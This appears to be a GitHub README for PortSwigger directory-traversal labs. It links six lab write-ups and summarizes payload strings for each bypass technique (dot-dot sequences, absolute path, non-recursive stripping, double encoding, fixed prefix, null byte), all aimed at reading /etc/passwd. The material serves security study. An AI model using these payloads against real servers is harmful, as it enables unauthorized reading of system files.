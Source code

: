 # [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

## Labs

- apprentice:
  - [1. File path traversal, simple case](./lab/1.%20File%20path%20traversal%2C%20simple%20case.md)
- practitioner:
  - [2. File path traversal, traversal sequences blocked with absolute path bypass](./lab/2.%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass.md)
  - [3. File path traversal, traversal sequences stripped non-recursively](./lab/3.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20non-recursively.md)
  - [4. File path traversal, traversal sequences stripped with superfluous URL-decode](./lab/4.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode.md)
  - [5. File path traversal, validation of start of path](./lab/5.%20File%20path%20traversal%2C%20validation%20of%20start%20of%20path.md)
  - [6. File path traversal, validation of file extension with null byte bypass](./lab/6.%20File%20path%20traversal%2C%20validation%20of%20file%20extension%20with%20null%20byte%20bypass.md)

## Summary

payloads:

- simple case:

  ```path
  ../../../../../../../../../../../../../etc/passwd
  ```

- absolute path:

  ```path
  /etc/passwd
  ```

- server remove `../`:

  ```path
  ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd 
  ```

- double encoding:

  ```path
  %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
  ```

- fixed first path:

  ```path
  /var/www/images/../../../../../../../../etc/passwd
  ```

- null byte:

  ```path
  ../../../../../../../../../../../../../../../../../../../etc/passwd%00.png
  ```

burpsuite scanner can detected all the cases above except the `fixed first path` one.
